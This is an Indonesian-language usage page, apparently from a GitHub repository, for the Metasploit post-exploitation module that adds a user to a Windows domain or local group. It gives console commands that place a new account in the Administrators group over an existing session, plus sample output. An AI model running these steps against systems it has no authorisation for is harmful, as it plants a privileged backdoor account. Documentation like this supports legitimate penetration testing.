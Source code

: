 # add_user

Modul ini menambahkan pengguna ke `Domain` dan/atau ke `grup Domain`. Modul akan memeriksa apakah hak istimewa yang cukup tersedia untuk tindakan tertentu dan menjalankan `getprivs` untuk sistem. Jika Anda meningkatkan hak istimewa ke sistem, `SeAssignPrimaryTokenPrivilege` tidak akan diberikan. Anda perlu bermigrasi ke proses yang berjalan sebagai sistem. Jika Anda tidak memiliki hak istimewa, skrip ini akan keluar.

## Penulis
- Joshua Abraham jabra@rapid7.com

## Platform
- `Windows`
  
## Cara Penggunaan di Metasploit

```
use post/windows/manage/add_user
set ADDTODOMAIN false
set ADDTOGROUP true
set GROUP Administrators
set PASSWORD <PASSWORD>
set SESSION <ID>
set USERNAME <USERNAME>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Running module on 'ADMIN-PC'
[*] Local Mode
[+] User 'fixploit03' was added.
[+] 'fixploit03' is now a member of the 'Administtators' group.
[*] Post module execution completed
```

## Referensi
-[Rapid7](https://www.rapid7.com/db/modules/post/windows/manage/add_user/)
